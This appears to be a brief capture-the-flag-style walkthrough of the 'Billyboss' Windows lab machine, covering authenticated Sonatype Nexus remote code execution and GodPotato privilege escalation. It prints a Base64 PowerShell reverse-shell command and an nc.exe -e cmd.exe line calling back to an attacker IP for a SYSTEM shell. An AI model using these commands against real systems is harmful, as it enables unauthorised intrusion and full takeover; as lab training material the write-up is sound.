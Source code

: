 # 🏴 Billyboss (Windows)

## 🧠 Initial Foothold

- Searched for leaked or default credentials using:

  ```
  grep -r "Sonatype Nexus" /usr/share/wordlists/seclists/Passwords
  ```

- Found valid credentials for the Sonatype Nexus interface.

- Logged in and used the following exploit:  
  **Sonatype Nexus 3.21.1 - Remote Code Execution (Authenticated)**  
  [Exploit-DB 49385](https://www.exploit-db.com/exploits/49385)

- Adjusted the payload for Windows by using a Base64-encoded PowerShell reverse shell:

  ```powershell
  cmd.exe /c powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUw...
  ```

- Successfully received a reverse shell on the Windows target.

---

## 🚀 Privilege Escalation

- Checked privileges and noticed `SeImpersonatePrivilege` was enabled.

- Used **GodPotato-NET4** for privilege escalation.

- Transferred `nc.exe` from the Kali machine to the target.

- Executed the following command:

  ```powershell
  .\GodPotato-NET4.exe -cmd "C:\Users\nathan\Desktop\nc.exe -e cmd.exe 192.168.49.140 4444"
  ```

- Successfully gained a reverse shell as **SYSTEM**.

---

> ⚠️ This walkthrough is for educational purposes only.
